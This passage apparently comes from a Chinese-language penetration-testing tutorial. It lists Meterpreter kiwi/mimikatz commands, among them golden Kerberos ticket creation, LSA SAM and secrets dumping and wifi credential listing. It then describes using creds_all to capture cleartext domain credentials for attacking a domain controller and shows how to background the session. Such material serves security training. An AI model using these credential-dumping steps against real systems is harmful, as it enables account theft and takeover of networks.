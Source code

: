 ```
golden_ticket_create Create a golden kerberos ticket
kerberos_ticket_list List all kerberos tickets (unparsed)
kerberos_ticket_purge Purge any in-use kerberos tickets
kerberos_ticket_use Use a kerberos ticket
kiwi_cmd Execute an arbitary mimikatz command (unparsed)
lsa_dump_sam Dump LSA SAM (unparsed)
lsa_dump_secrets Dump LSA secrets (unparsed)
password_change Change the password/hash of a user
wifi_list List wifi profiles/creds for the current user
wifi_list_shared List shared wifi profiles/creds (requires SYSTEM)  
```

使用`creds_all`命令将获得`msv`、`wdigest`、`tspkg`和`kerberos`凭据。基本上是对机器上所有保存或存储的凭据的转储。请注意，我们从最近登录到系统的域用户那里捕获了明文域凭据：

![](img/c71f6cf4-9aa4-439a-8640-58270f1fcbbe.png)

所以一个已完成，有了攻击域控制器的凭据。

输入以下内容以退出 Meterpreter 会话而不关闭会话：

```
background
sessions # This will show you the session is still running.  
```

![](img/23125dc2-375c-408f-9b62-af31c2645e21.png)

